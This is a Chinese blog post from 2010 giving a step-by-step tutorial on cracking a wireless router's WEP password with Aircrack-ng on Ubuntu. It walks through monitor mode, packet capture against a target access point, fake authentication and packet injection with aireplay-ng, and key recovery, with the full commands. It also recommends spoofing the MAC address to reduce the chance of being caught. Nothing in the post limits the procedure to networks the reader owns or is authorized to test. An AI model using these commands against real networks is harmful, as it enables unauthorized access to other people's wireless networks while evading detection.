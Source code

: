 ```yaml
---
    author: admin
    comments: true
    date: 2010-06-14 03:06:56
    layout: post
    slug: ubuntu10-04-aircrack-ng-hack-wiless-router
    title: ubuntu10.04 下使用Aircrack-ng破解无线路由AP密码
    wordpress_id: 617
    categories:
- ubuntu
- 问题解决
---
```


一:工具介绍

无线路由破解工具 Aircrack-ng ，官方网站_[http://www.aircrack-ng](http://www.aircrack-ng/)[ .org](http://www.aircrack-ng .org)_

Aircrack-ng工具包有很多工具，工具主要有以下几个：

    airmon-ng 处理网卡工作模式  

    airodump-ng 抓包  

    aircrack-ng 破解  

    aireplay-ng 发包，干扰  

每个工具的具体参数选项就不一一介绍了,详情请参考原作者:[here](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx)

其他必须的linux命令

    ifconfig 查看网卡状态及参数

    macchanger 伪造 MAC  

    iwconfig 主要针对无线网卡的工具 (同 ifconfig)  

    iwlist 获取无线网络的更详细信息

二: 前期准备

安装工具包: 

    sudo apt-get install aircrack-ng

确保自己的无线网卡已经打开

    ifconfig 显示无线网卡的MAC地址,记下以便日后使用

三:大致步骤描述

1. 修改无线网卡状态：先 down 掉
2. 伪造无线网卡的 MAC 地址：安全起见，减少被抓到的可能
3. 修改网卡工作模式：进入Monitor状态，会产生一个虚拟的网卡
4. 修改无线网卡状态： up
5. 查看网络状态，记录下 AP 的 MAC 和本机的 MAC ，确定攻击目标
6. 监听抓包：生成 .cap 或 .ivs
7. 干扰无线网络：截取无线数据包，发送垃圾数据包，用来获得更多的有效数据包
8. 破解 .cap 或 .ivs ，获得 WEP 密码，完成破解

改变MAC地址请参考:[here](http://www.path8.net/tn/archives/40)

四:具体实践操作

1将无线网卡down掉

    sudo ifconfig wlan0 down 

2 鉴于是实验,也就是折腾,不打算很邪恶,就没有做三.2这一步,这样以来第一步没有多大必要

3启动无线 网卡 的监控模式

    sudo airmon-ng start wlan0 

4查看采用wep 加密的在线AP,ctrl+c退出,保留此终端

    sudo airodump-ng mon0 

5 打开另一个终端,输入以下命令.c后面的6为AP工作频道,替换为要破解的AP相应的工作频道即可.--bissid后面的AP's MAC 是要欲破解AP的MAC地址,也做相应替换,-w后的wep的是抓下来的数据包DATA 保存的文件名(可以随便取名)，然后回车开始抓包

    sudo airodump-ng -c 6 --bssid AP's MAC -w wep mon0 

6 再另开一个终端，输入以下命令.ESSID替换为要破解的AP相应的ESSID,AP's MAC也做相应的替换,My MAC是自己的无线网卡的地址.此步骤用来AP建立虚拟连接.

    sudo aireplay-ng -1 0 -e ESSID -a AP's MAC -h My MAC mon0

7 再打开一个终端,输入以下命令.在6步骤建立虚拟连接成功后,进行注入.同理AP's MAC和My MAC也应该做相应的替换.现在步骤3中数据包应该不断增长。

    sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b AP's MAC -h My MAC mon0

8收集有5000个以上的DATA之后,另开一个终端 ,输入以下命令.进行解密(如果没算出来的话，继续等，Ubuntu aircrack-ng会在DATA每增加多5000个之后就自动再运行 ，直到算出密码为至)

    sudo aircrack-ng wep*.cap

9 如果没有出现意外，你应该会很高兴的看到KEY FOUND!破解出密码后在终端中输入 sudo airmon-ng stop mon0 关闭监控模式，不然无线网卡会一直向刚刚的AP进行注入的，用ctrl+c退出或者直接关闭终端都是不行的，除非重新启动电脑。

参考帖子: [http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html](http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html)

原帖:[http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx) 

引用请注明作者和来源,鄙视抄袭冒充。本文原创（技术说明文档由本人参照英文原文翻译）,作者:MHY_MHY, email:mayc66@gmail.com,欢迎指出错误.最初发表在 [http://blog.csdn.net/mhy_mhy](http://blog.csdn.net/mhy_mhy) ,最后修改17:00 2008/11/6。

